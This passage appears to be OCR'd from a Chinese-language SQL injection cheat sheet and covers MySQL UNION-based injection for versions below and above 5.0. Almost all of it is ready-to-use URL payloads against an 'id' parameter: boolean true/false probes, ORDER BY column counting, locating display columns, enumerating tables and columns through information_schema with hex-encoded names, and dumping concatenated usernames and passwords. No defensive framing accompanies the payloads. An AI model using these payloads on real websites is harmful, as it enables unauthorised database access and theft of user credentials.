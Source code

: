 **1.2 MySQL 联合查询**

1.2.1 适用于 mysql 低于 5.0 版本

```
1.判断是否可以注入
    ?id=1 and 1=1，页面正常
    ?id=1 and 1=2，页面空白
2.获得字段数
order by的方法来判断，比如：
    ?id=1 order by 4   页面显示正常
    ?id=1 order by 5   页面出错，说明字段数等于4
3.获得显示位
    ?id=1 and 1=2 union select 1,2,3,4 
    //比如，页面上出现了几个数字，分别是2，3，4，那么，这几个数字就被我们称作显示位。
4.猜表名
    猜表名的方法是，在第三步的完整的地址后加上：Form 表名，比如：
        ?id=1 and 1=2 union select 1,2,3,4 from users
    这样，当users表存在的话，页面就会显示正常，如果我们提交一个不存在的表名，页面就会出错。

5.猜字段
    使用：Concat(字段名)替换显示位的位置。
        ?id=1 and 1=2 union select 1,2,3,concat(username,password) from users

```

1.2.2 适用于 Mysql 5.0 以上版本支持查表查列

```
1.先判断是否可以注入
    and+1=1，页面正常
    and+1=2，页面空白
2.获得字段数：使用order by
提交：
    ?id=1 order by 4 正确。
    ?id=1 order by 5 错误。
    那么，判断出字段数为4。
3.获得显示位

提交：?id=1 +and+1=2+union+select+1,2,3,4
显示位为：2，3，4
4.获取信息
    ?id=1 +and+1=2+union+select+1,2,3,version()

    database() 
    user()  
    version() 
    database()  
    @@basedir  数据库安装路径
    @@datadir  数据库路径
5.查表
?id=1 and 1=2 union select 1,2,3,table_name from information_schema.tables where table_schema=0x74657374(数据库名test的Hex) limit 0,1--
得到表：test

6.查字段
    ?id=1 and 1=2 union select 1,2,3,column_name from 
information_schema.columns where table_name=0x74657374 limit 0,1--
    得到字段：id，username，password
7.爆字段内容
    ?id=1+and+1=2+union+select+1,2,3,concat(username,password) from+test

```

